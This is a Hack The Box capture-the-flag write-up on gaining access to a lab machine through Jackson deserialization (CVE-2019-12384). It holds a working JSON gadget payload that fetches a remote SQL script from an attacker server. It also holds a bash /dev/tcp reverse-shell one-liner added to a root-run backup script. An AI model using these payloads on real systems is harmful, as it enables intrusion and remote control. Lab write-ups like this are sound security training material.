# Box 




https://www.hackthebox.eu/home/machines/profile/286

# Profile

  

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#Reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [Root](#root)

# Contents 

## Reconnaissance

Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.214 10.10.10.214
```



So let's check out the website : 



It seems that we have another option in beta which is "Validate".  If it's in beta, maybe there are vulnerabilities. 

Let's try a simple payload  `\\`



Well, we have the error output and it's using jackson.

When you search for jackson exploit you find this link https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet#jackson-json which contains a lot of different exploits.

## Exploitation

None of them worked so I tried to search for another one and I found this one : 

https://github.com/jas502n/CVE-2019-12384


At first I just modified the `inject.sql` and replaced the    the current command with`curl http://10.10.14.17:4444/` 

for the exploit to work you have to setup a python server where your inject.sql is located. 

then replace the input in the github repo by your own server like this : 

```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.17:8000/inject.sql'"}]
```

Paste it into your browser.

and it worked.






Now we just have to modify our `curl` request by a RCE to trigger our reverse_shell ! Let's do that : 



Let's paste our payload again ! 

We got our shell.



## Post-Exploitation

### User

We directly land on the user. We got our flag.



### Root

Well, this was the easiest part. 

I found a script that we own in `/bin` called `timer_backup.sh`



Since it has to copy to the root folder I think it is called regularly. Let's add a reverse_shell to this script :

```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.17/1234 <&1'
```

It worked.



Rooted.